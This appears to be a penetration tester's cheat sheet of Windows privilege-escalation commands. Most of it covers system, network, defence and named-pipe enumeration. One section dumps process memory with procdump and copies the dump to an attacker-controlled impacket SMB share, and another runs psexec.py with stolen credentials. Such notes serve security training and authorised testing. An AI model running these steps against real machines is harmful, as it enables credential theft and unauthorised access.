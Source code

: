 # Windows Escaltion

## Gather Network Information

	ipconfig /all
	arp -a
	route print

## Enumerate Protections

	Get-MpComputerStatus
	Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
	Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone 		Tests Applocker policy

## Basic System Information

	echo %USERNAME%		Print current user
	whoami /priv		Displays current user privileges
	whoami /groups		Displays current user groups
	net user		Print all users
	net localgroup		Print all groups
	net localgroup <groupname>		Prints information of group
	tasklist /svc		Gives a better idea of what applications are running on the system. Prints the name of executables and services running
		https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tasklist

	set		Prints env variables including PATH
	systeminfo		Prints information of the system, including hotfixes applied
		https://www.catalog.update.microsoft.com/Search.aspx?q=hotfix
		If systeminfo doesn't display hotfixes, they may be queriable with WMI using the WMI-Command binary with QFE (Quick Fix Engineering) to display patches.

		wmic qfe 
		https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page
		https://learn.microsoft.com/en-us/windows/win32/cimwin32prov/win32-quickfixengineering

		We can do this with PowerShell as well using the Get-Hotfix cmdlet.

		Get-HotFix | ft -AutoSize

	wmic product get name		Get installed programs
		or using powershell
		Get-WmiObject -Class Win32_Product |  select Name, Version

	netstat -ano		Display active tcp and udp connections
	query user		Display active users
	net accounts		Prints password policy

	get-process		Enumerates running processes

		Use procdump https://learn.microsoft.com/en-us/sysinternals/downloads/procdump , to dump the memory of any interesting running process

			.\procdump.exe -ma <process_id> <output_file>
		
		We can use an smb share to download the output_file:

			on our local machine we do

			smbserver.py -smb2support -username guest -password guest share <path_to_folder_we_gonna_share>

			smbserver is a script from impacket

			on the remote machine we do

			net use x: \\<our_local_ip>\share /user:guest guest

			and now we copy the dump file

			cmd /c "copy <filen_name>.dmp X:\"

## Check communication through processess using pipes

	pipelist.exe /accepteula		enumerate instances of named pipes
		https://docs.microsoft.com/en-us/sysinternals/downloads/pipelist
	Get-ChildItem \\.\pipe\		enumerate instances of named pipes with powershell
	accesschk.exe /accepteula \\.\Pipe\<name_of_pipe> -v		Enumerate permissions of pipe. We are looking for a pipe we have WRITE permissions for our user
		https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk
	accesschk.exe -w \pipe\* -v		Enumerates all pipes that have WRITE permission

## Check if account has SeDebugPrivilege

	whoami /priv


## Remote Login with usermae and password

We can try doing remote logins with useranmes and passwords using a script from impacket

	psexec.py '<username>:<password>@<remote_host_ip>'


## Try WinPeas

	https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS

## More info

	https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
